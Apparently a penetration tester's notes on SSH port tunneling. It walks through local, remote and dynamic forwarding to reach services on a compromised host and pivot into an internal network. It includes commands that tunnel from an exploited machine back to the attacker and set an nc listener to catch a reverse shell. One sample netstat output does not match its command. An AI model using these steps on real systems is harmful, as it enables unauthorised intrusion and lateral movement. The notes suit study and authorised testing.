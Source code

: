# Port Tunneling Explained
I keep notes on how port tunneling works, and specify which scenario to deploy which technique.

## SSH Port Tunneling for exploitation

### Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is an open SSH service at 10.10.1.10:22 or 0.0.0.0:22.
- I have obtained credentials to the SSH service.

Technique: Local Port Forwarding via SSH.

```sh
(host)# ssh -L 3307:127.0.0.1:3306 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      22582/ssh
...
(host)# nc 127.0.0.1 3307
...
```

**Explanation:**
The first 3307 refers to opening a local port on your host machine. The 127.0.0.1:3306 refers to the remote host's service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

### Scenario 2:
- The service of my exploited machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- There is *no open* SSH server at 0.0.0.0:22. The port is filtered. There is a firewall blocking. 
- I have gained of Remote Code Execution on the machine. 
- There is an SSH client inside the exploited server.
- I would like to tunnel the service back to my host machine (10.10.1.32)

Technique: Reverse/Remote Port Forwarding via SSH.

```sh
(host)# service ssh start
(exploited)$ ssh -R 3307:127.0.0.1:3306 kali@10.10.1.32
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      25748/sshd
...
(host)# nc 127.0.0.1 3307
```

**Explanation:**
Within the exploited machine, we use the ssh client found inside exploited machine to connect back to our sshd hosted at our host machine with our set of credentials. 

The first 3307 refers to opening a local port on your remote machine (my host at 10.10.1.32). 
The 127.0.0.1:3306 refers to the local host's (exploited) service.
This will create an SSH tunnel to relay connection to your host's port 3307 to the target service.

The format looks very similar to local port forwarding. TLDR, think of it as the same format but we swapped `-L` to `-R` for a reverse connection.

### Scenario 3:
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- There is an admin web interface at 172.16.1.2:80 that I would like to access to this through my exploited machine as a jump host.
- There is an open SSH server at 10.10.1.10:22 or 0.0.0.0:22. 
- I have obtained credentials to the SSH service.

Technique #1: Local port forwarding via SSH to a single internal target.

```sh
(host)# ssh -L 8001:172.16.1.2:80 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# curl -v http://127.0.0.1:8001/
...
```

**Explanation:**
The first 8001 refers to opening a local port on your host machine. The 172.16.1.2:80 refers to the admin web panel located inside the intranet.
This will create an SSH tunnel to relay connection to your host's port 8001 to the target service. This is very similar to Scenario 1 except this time, we specify a specific remote target which is the intranet admin panel instead of 127.0.0.1.

Technique #2: Dynamic port forwarding via SSH to any internal target reachable by jumphost.

```sh
(host)# tail /etc/proxychains.conf
...
[ProxyList]
socks5  127.0.0.1 8001
(host)# ssh -D 8001 username@10.10.1.10
(host)# netstat -antp
...
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      31049/ssh
...
(host)# proxychains curl -v http://172.16.1.2/
...
```

**Explanation:**
We first edit our proxychains configuration file to set a SOCKS proxy at 127.0.0.1:8001.
Then, by using SSH dynamic port forwarding, we create a SOCKS proxy at port 8001 with the `-D` option.
Next, we can process to prefix any CLI commands with proxychains that will route our requests through this SOCKS proxy and reach the admin panel.
The benefit of this is that we are no longer limited to a single remote target hardcoded in our Local Port Forwarding. 

### Scenario 4:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 3.
- I found a vulnerability on 172.16.1.2:80 and I want to get a reverse connection back to my host machine (10.10.1.32). 
- There is an SSH client inside the jumphost.

Technique: Local Port Forwarding via SSH within jumphost to send reverse connection back to our host

```sh
(host)# service ssh start
(host)# nc -nlvp 9999
(host)# netstat -antp
...
tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      100026/nc
...
(jumphost)$ ssh -L 172.16.1.10:4444:10.10.1.32:9999 kali@10.10.1.32
(jumphost)$ netstat -antp
...
tcp        0      0 172.16.1.100:9877       0.0.0.0:*               LISTEN      2283967/ssh
...
(host)# proxychains exploit.py --lhost=172.16.1.10 --lport=4444
```

**Explanation:**
I first start my own host's SSHd. I set a netcat listener at port 9999 to catch a reverse connection back on my host machine (10.10.1.32). 
Inside my jumphost, I leverage the SSH client found inside to perform a Local Port Forwarding instead. Interesting fact: Local Port Forwarding allows us to set a binding address without requiring any special option being enabled on the jumphost's SSHd configuration unlike Remote Port Forwarding.
I can either set my binding address to 172.16.1.10 or 0.0.0.0. This will create a port 4444 listener on our jumphost as seen in our netstat. I then set the remote address pointing to my host's netcat at 10.10.1.32:9999. We can then exploit the admin web portal to call a reverse connection to our jumphost at 172.16.1.10:4444 which will redirect back to our netcat listener, thus catching a reverse shell. 



